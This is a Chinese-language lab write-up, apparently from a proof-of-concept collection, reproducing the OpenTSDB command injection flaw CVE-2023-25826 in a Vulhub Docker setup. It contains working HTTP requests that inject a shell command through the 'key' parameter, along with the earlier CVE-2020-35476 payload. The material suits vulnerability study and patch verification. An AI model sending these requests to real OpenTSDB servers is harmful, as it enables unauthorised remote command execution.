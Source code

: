 # OpenTSDB 命令注入漏洞 CVE-2023-25826

## 漏洞描述

OpenTSDB 是一款基于 Hbase 的、分布式的、可伸缩的时间序列数据库。 2.4.1 版本及之前，存在一处命令注入漏洞。 这个漏洞其实是对之前的 CVE-2020-35476 修复不完善导致的，所以整个复现过程也与之前类似。

参考链接：

- [https://www.synopsys.com/blogs/software-security/opentsdb/](https://www.synopsys.com/blogs/software-security/opentsdb/)
- [OpenTSDB/opentsdb#2275](https://github.com/OpenTSDB/opentsdb/pull/2275)

## 环境搭建

Vulhub 执行如下命令启动一个 OpenTSDB 2.4.1：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:4242`即可看到 OpenTSDB 的 Web 接口。

![](images/OpenTSDB%20命令注入漏洞%20CVE-2023-25826/image-20240307171841166.png)

## 漏洞复现

这之前的都和 CVE-2020-35476 一致，也是需要知道一个 metric 的名字，可以通过`http://your-ip:4242/api/suggest?type=metrics&q=&max=10`查看 metric 列表。

这里的 metric 列表是空的。但当前 OpenTSDB 开启了自动创建 metric 功能（`tsd.core.auto_create_metrics = true`），所以也可以使用如下 API 创建一个名为`sys.cpu.nice`的 metric 并添加一条记录：

```
POST /api/put/ HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 150

{
    "metric": "sys.cpu.nice",
    "timestamp": 972388800,
    "value": 20,
    "tags": {
       "host": "web01",
       "dc": "lga"
    }
}
```

![](images/OpenTSDB%20命令注入漏洞%20CVE-2023-25826/image-20240307171931111.png)

如果目标 OpenTSDB 存在 metric，且不为空，则无需上述步骤。

发送 CVE-2020-35476 payload ：

```
GET /q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[0:system(%27touch%20/tmp/awesome_poc%27)]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json HTTP/1.1
Host: your-ip:4242
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
Connection: close
```

将返回错误：

```
{"err":"'yrange' was invalid. Must be in the format [min:max]."}
```

![](images/OpenTSDB%20命令注入漏洞%20CVE-2023-25826/image-20240307172116456.png)

CVE-2023-25826 绕过修复的一个点，在参数 key 这里：

```shell
# CVE-2020-35476
/q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[0:system(%27touch%20/tmp/awesome_poc%27)]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json

# CVE-2023-25826
/q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=1&xrange=&y2range=[42:42]&key=%3Bsystem%20%22touch%20/tmp/awesome_poc%22%20%22&wxh=1516x644&style=linespoint&baba=lala&grid=t&json
```

发送数据包：

```
GET /q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=1&xrange=&y2range=[42:42]&key=%3Bsystem%20%22touch%20/tmp/awesome_poc%22%20%22&wxh=1516x644&style=linespoint&baba=lala&grid=t&json HTTP/1.1
Host: your-ip:4242
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
Connection: close
```

![](images/OpenTSDB%20命令注入漏洞%20CVE-2023-25826/image-20240307172238155.png)

进入容器中可见 `touch /tmp/awesome_poc` 已成功执行：

![](images/OpenTSDB%20命令注入漏洞%20CVE-2023-25826/image-20240307172321376.png)



